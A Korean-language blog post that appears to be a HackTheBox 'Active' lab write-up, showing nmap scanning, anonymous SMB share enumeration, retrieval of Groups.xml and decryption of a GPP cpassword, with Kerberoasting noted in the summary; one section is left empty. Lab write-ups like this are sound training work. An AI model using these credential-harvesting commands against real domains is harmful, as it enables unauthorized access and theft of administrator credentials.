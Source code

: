 ```yaml
---
layout: post
title: HackTheBox Active
subtitle: Acitive Directory 101 Active Exam WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - OSCP
  - AD
  - WriteUp
sidebar:
---
```

## Summary
![](/assets/images/posts/2025-03-04-Active/8055314e6eefbca8ad4a0d558519c82c_MD5.jpeg)
crackmapexec enum 검색
smbclient 접속 -> get filename (정책포함 총2개)
passwordcrack (GPP)
해당 계정으로 smb 접근후 플래그 취득
커버로스팅 시도
어드민비번 13100 해쉬캣
smb 

## Target - 10.129.157.36
### Open Port
```bash
nmap -sC -sV -Pn -p- 10.129.157.36 -oN Active_allport
```
![](/assets/images/posts/2025-03-04-Active/dfa394a533f243c0477ade6179f61f1a_MD5.jpeg)
### SMB Enum (No Auth)
```bash
# 비로그인으로 공유 폴더 권한 보기
crackmapexec smb 10.129.157.36 -u '' -p '' --shares

# Replication 재귀로 다 검색
crackmapexec smb 10.129.157.36 -u '' -p '' --spider Replication --regex .

smbclient //10.129.157.36/Replication
cd active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups
get Groups.xml
```

![](assets/images/posts/2025-03-04-Active/524e9fb03a7a4ff6798850d2e3a43c27_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Active/c3a8ad49223654f2cc332332957dfad1_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Active/504f36a387817853d0ccbd67b19e9963_MD5.jpeg)

### Password Crack [Group Policy Preferences]
> What's GPP : 그룹 정책을 통해 도메인에 연결된 머신을 구성할 수 있으며 각 머신들은 DC에 주기적으로 연결(로그인)하여 정책을 동기화 한다. GPP의 기능 중 로컬 관리자 계정에 대한 암호를 설정하는 기능이 Groups.xml 파일의 cpassword 필드를 구성하는데, 이 부분이 공격 당하는 것이다.
   
```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
![](assets/images/posts/2025-03-04-Active/c211b63404c6e1dd891c7d23ee15387c_MD5.jpeg)

### SMB Enum (Auth)
```bash

```


## End
![](/assets/images/posts/2025-03-04-Active/de95368feb71382f1c35a682dc077a0b_MD5.jpeg)